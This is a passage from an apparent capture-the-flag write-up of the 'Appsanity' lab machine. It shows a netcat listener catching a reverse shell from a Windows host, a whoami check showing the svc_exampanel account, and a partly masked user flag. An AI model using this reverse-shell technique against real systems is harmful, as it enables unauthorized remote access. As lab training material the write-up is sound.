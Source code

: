 ![image-20240301161029674](../img/image-20240301161029674.png)

When I send, it just hangs, but a few seconds later at `nc`:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.238 62885
    Spawn Shell...
    Microsoft Windows [Version 10.0.19045.3570]
    (c) Microsoft Corporation. All rights reserved.
    
    c:\windows\system32\inetsrv> whoami
    appsanity\svc_exampanel
    

The user flag is on the exampanel user’s desktop:

    
    
    c:\Users\svc_exampanel\Desktop> type user.txt
    1198a84a************************
    

Running `powershell` converts this shell from `cmd` to `powershell`, which is
also nice.

## Shell as devdoc
